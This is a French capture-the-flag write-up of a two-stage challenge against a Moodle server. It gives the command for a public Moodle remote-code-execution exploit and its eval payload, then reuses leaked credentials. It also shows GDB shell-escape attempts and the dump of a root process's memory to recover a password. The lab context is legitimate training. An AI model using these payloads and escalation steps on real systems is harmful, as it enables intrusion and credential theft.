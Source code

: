 # Description
On vous appelle à l'aide !
Un étudiant nommé Mel a créé une plateforme qui reprend les idées du célèbre site root-me en faisant payer les cours.
Il a récemment migré sa plateforme qui était sur Wordpress vers Moodle pour vous donner accès à un cours d'exemple pour vous donner envie d'acheter.
Votre but premier est d'obtenir un shell sur la machine avec l'utilisateur de Mel.
Accès au challenge : ici
Mirror : ici
P.S : Une instance docker va être déployée quand vous le demanderez, attendez la création de celui-ci pour obtenir les liens. On vous demande de ne déployer qu'une seule instance par team.
P.S.2 : Des rules iptables sont en places, si votre comportement n'est pas adapté au challenge (scan des ports de la machine hôte), vous serez banni pendant 10 minutes.
(Le serveur en lui même est out of scope, seul le docker déployé le sera)

# Write UP

## Partie 1

Le challenge débute sur un serveur web avec Moodle installé dessus.
Il y a un cours qui ne nous apprend pas grand chose, si ce n'est l'existance [d'un github](https://github.com/melTHEboss/php_exploit) appartenant à l'auteur.

En se rendant dessus, il y a un répo `php_exploit` avec un commit "OOOOOOPS wrong commit".
En regardant le diff, on retrouve un fichier `config.php.bak` qui contient les identifiants Moodle ainsi que les infos de la bdd.
On peut donc maintenant se connecter en tant que `meltheboss` sur le Moodle.

Après quelques rapides recherches, on se rend compte qu'il existe un exploit RCE pour cette version spécifique de moodle ([https://www.exploit-db.com/exploits/46551](https://www.exploit-db.com/exploits/46551)).

La faille réside dans la fonction "question dynamique" qui peut être exploitée jusqu'à un `eval()` de code.

`php 46551.php url=http://217.160.15.230:36471 user=meltheboss pass=[Je l'ai plus] ip=x.x.x.x port=4242 course=2`

Toute les étapes se passent bien, jusqu'à la dernière `[*] Adding Evil Question` qui ne fonctionne pas.
À ce moment là, deux possibilités : on corrige l'exploit ou on termine à la main.

On va donc terminer l'exploitation à la mano à l'aide de [cet article de blog](https://blog.ripstech.com/2018/moodle-remote-code-execution).
 Il nous suffit d'utiliser les éléments déjà créés par notre exploit, et
 d'y ajouter manuellement la fameuse question piégée avec le payload `/*{a*/`$_GET[0]`;//{x}}`.

On est maintenant en mesure d'exécuter du code par le paramètre GET 
0. On en profite pour se créer un reverse shell, et nous voila connecté 
en tant qu'utilisatuer `www-data`.

On doit maintenant réussir à se connecter en tant que `meltheboss`.
Nos droits étant limités, on compte sur une réutilisation de mot de passe.

On dispose toujours des identifiants mysql récupérés sur le git. C'est le moment de voir si on peut en tirer quelque chose.
Et en effet, il y a une base mysql "wordpress" avec une table "wp_users" dans laquelle se trouve un utilisateur `meltheboss` ainsi que son mot de passe en base64 (`P4ssw0rd0fm3l!!`).

Le flag se trouve dans `/home/meltheboss/flag.txt`.

## Partie 2

On profite d'avoir le pass de meltheboss pour s'ouvrir un petit SSH bien confort.
Premier reflex de reconaissance : `sudo -l`

On découvre alors qu'on a les droits sudo pour un fichier `/usr/local/bin/gdb_fork.py`.
Quand on lance ce fichier, un prompt nous demande d'indiquer un fichier à exécuter.

On pourrait imaginer qu'il s'agit donc d'un script qui ferait un eval() sur un autre fichier python.
On se crée donc un fichier de test dans `/tmp` :

`echo 'print(1)' > /tmp/test.py`

Lorsqu'on essaye de l'importer, le programme nous répond que le fichier doit respecter la syntaxe :

```python
import gdb
gdb.execute('attach x')
gdb.execute('i a r')
gdb.execute('quit')

```

Il semblerait donc qu'on soit conffronté à une librairie pyton qui execute des commandes dans GDB.
Ma première idée était de voir si on pouvait se spawn un petit shell :

```python
gdb.execute('!sh')
gdb.execute('!bash')
gdb.execute('shell')
gdb.execute('python import pty; pty.spawn("/bin/sh")')
gdb.execute('python')
gdb.execute('python-interactive')
```

Mais sans succès. Mon attention a donc été attirée par la première ligne du script d'exemple qui parle d'attacher un processus (`attach x`).
 Comme rien n'est jamais là par hasard, on fait un petit tour dans les 
processus et on découvre en effet un lftp qui tourne avec les droits 
root et le pid `562`.

Nouvelle idée : attacher ce processus et essayer de voir si on peut pas retrouver un mot de passe dans la mémoire.

On se construit donc un nouvel exploit :

```python
import gdb
gdb.execute('attach 562')
gdb.execute('info proc mappings')
```

qui fonctionne à merveille et nous donne nos adresses mémoire :

```
Mapped address spaces:

Start Addr           End Addr       Size         Offset objfile
0x55e8db79a000     0x55e8db8e9000   0x14f000        0x0 /usr/bin/lftp
0x55e8dbae9000     0x55e8dbaf2000     0x9000   0x14f000 /usr/bin/lftp
0x55e8dbaf2000     0x55e8dbaf8000     0x6000   0x158000 /usr/bin/lftp
0x55e8dbaf8000     0x55e8dbafa000     0x2000        0x0

0x55e8dd0c5000     0x55e8dd144000    0x7f000        0x0 [heap]
```

On peut maintenant exporter le contenu de notre heap :

```python
import gdb
gdb.execute('attach 562')
gdb.execute('dump memory out 0x55e8dd0c5000 0x55e8dd144000')
```

La commande `strings` n'est pas installée sur le serveur, on fait donc un scp pour récupérer le fichier `out` en local et après un petit parcours manuel on retrouve notre mot de passe : `th3sup3rr00tp4ssw0rd`.

Le flag se trouve dans `/root/flag.txt`.

# Flag 
- 
